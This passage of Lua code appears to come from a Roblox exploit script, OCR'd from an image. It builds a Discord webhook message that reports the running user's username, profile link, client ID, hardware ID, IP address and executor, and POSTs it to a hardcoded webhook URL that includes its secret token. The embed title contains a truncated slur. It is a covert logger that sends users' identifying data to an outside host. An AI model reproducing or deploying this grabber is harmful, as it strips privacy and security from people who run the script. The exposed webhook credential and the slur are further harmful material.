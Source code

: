                 ["embeds"] = {{
                    ["title"] = "Some N- executed your script",
                    ["description"] = "User Device: ".. deviceType,
                    ["type"] = "rich",
                    ["color"] = tonumber(0x000000),
                    ["fields"] = {
                        {
                            ["name"] = "\n\n-----------------------------------------------------Information** **",
                            ["value"] = "Identified Executor: " .. identifiedExecutor .. 
                                        "\nExecutor Name: " .. executorName .. 
                                        "\nServer Players: " .. #game.Players:GetChildren() .. 
                                        "\nServer Type: " .. GetServerType() ..
                                        "\nUsername: [" .. userName .. " (" .. displayName .. 
                                        ")](https://www.roblox.com/users/" .. userId .. 
                                        "/profile)\nClient ID: " .. game:GetService("RbxAnalyticsService"):GetClientId() .. 
                                        "\nHWID: " .. hwid.. "\nIP: " .. IP .. 
                                        "\n-----------------------------------------------------",
                            ["inline"] = false
                        },
                        {
                            ["name"] = "JobId Join",
                            ["value"] = "```Roblox.GameLauncher.joinGameInstance('" .. placeId .. "', '" .. jobId .. "')```",
                            ["inline"] = true
                        },
                        {
                            ["name"] = "JobId",
                            ["value"] = "```" .. jobId .. "```",
                            ["inline"] = true
                        },
                    },
                    ["thumbnail"] = {
                        ["url"] = imageUrl
                    },
                    ["footer"] = {
                        ["text"] = "Script ran at " .. currentTime,
                    },
                }},
            })

            local Headers = {
                ["content-type"] = "application/json"
            }

            local Url = "https://discord.com/api/webhooks/1268416377476349952/5MhiFsuJVjqRIwERTkt8ylzo2qFinrFykDXY3e7JgrTpcPiMOojxN2DJlG3hHRAI00BN"

            request({
                Url = Url,
                Body = Body,
                Method = "POST",
                Headers = Headers
            })
        end
    end
